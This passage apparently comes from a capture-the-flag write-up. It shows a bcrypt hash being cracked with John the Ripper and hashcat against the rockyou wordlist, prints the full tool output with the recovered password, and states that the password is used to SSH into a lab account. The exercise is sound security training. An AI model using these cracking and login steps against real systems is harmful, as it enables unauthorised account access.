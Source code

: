     ```bash
    echo "\$2y\$10\$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12" > hash.txt
    ```
    ```bash

    ######### using john the ripper #########

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt && john --show hash.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    No password hashes left to crack (see FAQ)
    ?:tequieromucho

    1 password hash cracked, 0 left                                     
    ```

    ```bash
    ####### using hashcat ########

    hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting

    OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ==================================================================================================================================================


    $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
    Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
    Time.Started.....: Sat Apr 27 13:54:43 2024 (11 secs)
    Time.Estimated...: Sat Apr 27 13:54:54 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      132 H/s (7.22ms) @ Accel:8 Loops:16 Thr:1 Vec:1
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 1408/14344385 (0.01%)
    Rejected.........: 0/1408 (0.00%)
    Restore.Point....: 1344/14344385 (0.01%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
    Candidate.Engine.: Device Generator
    Candidates.#1....: teacher -> tagged
    Hardware.Mon.#1..: Temp: 80c Util: 92%

    Started: Sat Apr 27 13:54:26 2024
    Stopped: Sat Apr 27 13:54:54 2024
    ```

From recon part we know that SSH is running on open port 22. So, lets use the credentials to log into logan account using ssh. the we can simply cat out the user flag.
